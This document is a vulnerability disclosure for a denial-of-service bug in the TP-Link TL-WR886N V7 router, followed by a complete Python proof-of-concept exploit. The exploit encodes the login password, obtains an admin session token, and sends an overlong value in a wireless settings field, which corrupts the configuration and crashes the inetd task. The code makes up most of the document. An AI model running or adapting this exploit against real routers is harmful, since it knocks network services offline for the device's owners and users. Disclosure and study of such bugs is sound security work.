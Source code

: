 # TP-Link WR886N V7 Inetd Task Dos  

**Vender**：TP-Link

**Firmware version**: 1.1.0

**Hardware version**: TL-WR886N 7.0

**Exploit Author**: lbp@galaxylab.org

**Vendor Homepage**: http://www.tp-link.com.cn/

**Hardware Link**:http://www.tp-link.com.cn/product_397.html

## Vul detail ##
In the router module `wireless`, user can setup wifi parameters with http post request. An normal request looks like below.

![](normal_post_request.png)

After config wifi parameters, `wireless` module will save data to config file.

![](normal_config_file.png)

If we send request with long value in specific json key, it will overflow and break the `wireless` module config file. 

If the string long enough it will also crash the inetd task, this will stop most network services, such as http, dns and upnp.  
  

![](inetd_crash.png)

## POC

```python
import requests


def security_encode(a):
    c = "RDpbLfCPsJZ7fiv"
    b = "yLwVl0zKqws7LgKPRQ84Mdt708T1qQ3Ha7xv3H7NyU84p21BriUWBU43odz3iP4rBL3cD02KZciXTysVXiV8ngg6vL48rPJyAUw0HurW20xqxv9aYb4M9wK1Ae0wlro510qXeU07kV57fQMc8L6aLgMLwygtc0F10a0Dg70TOoouyFhdysuRMO51yY5ZlOZZLEal1h0t9YQW0Ko7oBwmCAHoic4HYbUyVeU3sfQ1xtXcPcf1aT303wAQhv66qzW"
    d = ''
    e = f = g = h = k = 187
    m = 187
    f = len(a)
    g = len(c)
    h = len(b)
    if f > g:
        e = f
    else:
        e = g

    for i in range(e):
        m = k = 187
        if i >= f:
            m = ord(c[i])
        elif i >= g:
            k = ord(a[i])
        else:
            k = ord(a[i])
            m = ord(c[i])
        d += b[(k ^ m) % h]
    return d


def get_token(password):
    print(security_encode(password))
    login_url = 'http://192.168.1.1/'
    login_data = {"method": "do",
                  "login": {
                      "password": security_encode(password)
                  }
                  }
    rsp = requests.post(login_url, json=login_data)
    rsp_json = rsp.json()
    if rsp_json['error_code'] == 0:
        return rsp_json['stok']
    # set password
    elif rsp_json['error_code'] == -40401:
        set_password = {
            "method": "do",
            "set_password": {
                "password": security_encode(password)
            }
        }
    rsp = requests.post(login_url, json=set_password)
    rsp_json = rsp.json()
    if rsp_json['error_code'] == 0:
        # get token again
        return get_token(password)


password = 'password'
burp0_url = "http://192.168.1.1/stok=%s/ds" % get_token(password)
burp0_headers = {"Accept": "application/json, text/javascript, */*; q=0.01", "Origin": "http://192.168.1.1", "X-Requested-With": "XMLHttpRequest", "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36", "Content-Type": "application/json; charset=UTF-8", "Referer": "http://192.168.1.1/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.6,ko;q=0.5", "Connection": "close"}

burp0_json = {
  "method": "set",
  "wireless": {
    "wlan_host_2g": {
      "ssid": "TP-LINK_9CAF1",
      "encryption": "1",
      "key": "zaq12wsx1",
      "channel": "2",
      "bandwidth": "0"
    }
  }
}


# burp0_json['wireless']['wlan_host_2g']['ssid'] = "%s" % ('A' * int(1.5 * 1024 * 1204))  # crash point 1
# burp0_json['wireless']['wlan_host_2g']['channel'] = "%s" % ('A' * int(1.5 * 1024 * 1204))  # crash point 2
burp0_json['wireless']['wlan_host_2g']['bandwidth'] = "%s" % ('A' * int(1.5 * 1024 * 1204))  # crash point 3

rsp = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, timeout=3)
print(rsp.content)

```